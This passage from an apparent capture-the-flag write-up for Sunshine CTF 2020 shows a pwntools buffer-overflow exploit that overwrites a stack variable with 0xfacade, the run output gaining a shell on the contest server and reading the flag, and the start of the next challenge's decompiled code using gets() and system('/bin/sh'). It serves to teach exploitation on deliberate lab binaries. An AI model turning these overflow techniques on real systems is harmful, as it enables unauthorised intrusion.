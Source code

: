 With all the information here, we can write a program to run the exploit end to end.

```python
#!/usr/bin/env python3

from pwn import *

context.binary = ELF('./chall_00')

if args.REMOTE:
    io = remote('chal.2020.sunshinectf.org', 30000)
else:
    io = process(context.binary.path)
    
print(io.recvline())

buffer = 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO'
payload = p32(0xfacade)

io.sendline(flat(buffer, payload))
io.interactive()
```

Note that we needed to use a pack function on the constant to send. The binary was made on a little endian system, and the bytes need to be sent in reverse.

Running the program gives us shell access on Sunshine's server:
```sh
meraxes@pantheon:/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020$ ./chall_00.py REMOTE
[*] '/mnt/c/Users/meraxes/dev/ctf/sunshine-ctf-2020/chall_00'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to chal.2020.sunshinectf.org on port 30000: Done
b'This is the only one\n'
Sending:  b'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOO\xde\xca\xfa\x00'
[*] Switching to interactive mode
$ ls
chall_00
flag.txt
$ cat flag.txt
sun{burn-it-down-6208bbc96c9ffce4}
$ 
```

## chall_01
---

Let's take a peek at the decompilation output:
```c
void main(void)

{
  char local_68 [64];
  char local_28 [24];
  int local_10;
  int local_c;
  
  puts("Long time ago, you called upon the tombstones");
  fgets(local_28,0x13,stdin);
  gets(local_68);
  if (local_c == 0xfacade) {
    system("/bin/sh");
```